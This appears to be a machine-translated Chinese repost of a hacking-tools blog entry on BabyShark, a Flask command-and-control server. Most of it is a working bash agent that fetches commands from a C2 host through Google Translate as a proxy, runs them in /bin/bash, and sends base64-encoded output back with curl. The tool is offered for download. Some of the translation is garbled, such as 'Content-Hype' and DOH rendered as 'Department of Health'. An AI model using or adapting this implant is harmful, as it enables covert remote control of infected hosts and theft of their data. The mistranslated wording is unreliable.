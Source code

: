 # BabyShark:基本 C2 服务器 2020

> 原文：<https://kalilinuxtutorials.com/babyshark/>

[![BabyShark : Basic C2 Server 2020](img/13fb038b12f88432cd1af88fe3dbf62d.png "BabyShark : Basic C2 Server 2020")](https://1.bp.blogspot.com/-mNnTBmp0_z8/Xut9P43X-eI/AAAAAAAAGpg/gE1Ih5jeFt0Uf0k-6PSaYyh1ykNMkb4OQCLcBGAsYHQ/s1600/BabyShark%25281%2529.png)

BabyShark 是一个用 Python 和 Flask 编写的基本 C2 通用服务器。

这段代码基于 [GTRS](https://github.com/mthbernardes/GTRS) 的思想，它使用[谷歌翻译](https://translate.google.com)作为代理向被感染的主机发送命令。BabyShark 项目旨在集中代理的反向连接，创建一种将几种类型的连接集中在一个地方的方法。

BabyShark 不生成感染代理，但它提供了一个模板来连接它。

**安装**

**git 克隆 https://github.com/danilovazb/BabyShark/
CD baby shark
mkdir 数据库
sqlite3 数据库/c2.db < schema.sql**

**也可阅读-[ANDRAX:NH-Android 上的黑仔渗透测试](https://kalilinuxtutorials.com/andrax/)**

**代理模型**

**GTRS**–【https://github.com/mthbernardes/GTRS 

GTRS 中用于连接到 BabyShark 的客户端示例:

```
#!/bin/bash

if [[ $# < 2 ]];then
    echo -e "Error\nExecute: $0 www.c2server.com secretkey-provided-by-the-server\n"
    exit
fi

running=true
secretkey="b4bysh4rk"
user_agent="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36"
data="Content-Hype: "
c2server="http://babyshark/momyshark?key=$secretkey"
result=""
input="/tmp/input"
output="/tmp/output"

function namedpipe(){
  rm "$input" "$output"
  mkfifo "$input"
  tail -f "$input" | /bin/bash 2>&1 > $output &
}

function getfirsturl(){
  url="https://translate.google.com/translate?&anno=2&u=$c2server"
  first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
} 

function getsecondurl(){
  second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
}

function getcommand(){
  if [[ "$result" ]];then  
    command=$(curl --silent $second -H "$result" )
  else
    command=$(curl --silent $second -H "$user_agent" )

    command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
    command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
    if [[ "$command1" ]];then
      command="$command1"
    else
      command="$command2"
    fi
  fi
}

function talktotranslate(){
  getfirsturl
  getsecondurl
  getcommand
}

function main(){
  result=""
  sleep 10
  talktotranslate
  if [[ "$command" ]];then
    if [[ "$command" == "exit" ]];then
      running=false 
    fi
    echo $command
    echo -n > $output
    idcommand=$(echo $command | cut -d '#' -f2)
    echo "$command" > "$input"
    sleep 2
    outputb64=$(cat $output | tr -d '\000'  | base64 | tr -d '\n'  2>/dev/null)
    if [[ "$outputb64" ]];then
      result="$user_agent | $outputb64 | $idcommand "
      talktotranslate
    fi
  fi
}

namedpipe
while "$running";do
  main
done
```

**接下来的步骤**

*   SSH 反向
*   域名服务器(Domain Name Server)
*   卫生部(Department of Health)
*   HTTPS
*   HTTP3
*   网间控制报文协议(Internet Control Messages Protocol)
*   QUIC

[**Download**](https://github.com/UnkL4b/BabyShark)